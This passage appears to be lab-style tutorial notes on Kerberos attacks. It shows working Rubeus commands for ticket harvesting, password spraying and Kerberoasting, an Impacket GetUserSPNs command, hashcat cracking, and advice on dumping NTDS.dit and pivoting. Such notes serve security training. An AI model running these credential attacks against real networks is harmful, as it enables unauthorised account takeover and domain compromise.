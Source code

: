 Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

```
# to harvest for TGTs every 30 seconds
.\Rubeus.exe harvest /interval:30
```

#### Brute-Forcing / Password-Spraying w/ Rubeus

Rubeus can both brute force passwords as well as password spray user accounts.
- When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account.
- In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a `.kirbi` ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

```
# a given password and "spray" it against all found users then give the .kirbi TGT for that user
.\Rubeus.exe brute /password:Password1 /noticket
```

> Be mindful of how you use this attack as it may lock you out of the network depending on the *account lockout policies*.

### Kerberoasting

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain.

#### Kerberoasting w/ Rubeus

```
.\Rubeus.exe kerberoast /nowrap
#After getting hash crack it using hashcat
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

#### Kerberoasting w/ Impacket

```
#Python Impacket
#this does not have to be on the targets machine and can be done remotely
/opt/impacket/examples/GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.171.81 -request
```

> After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the **NTDS.dit**. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.
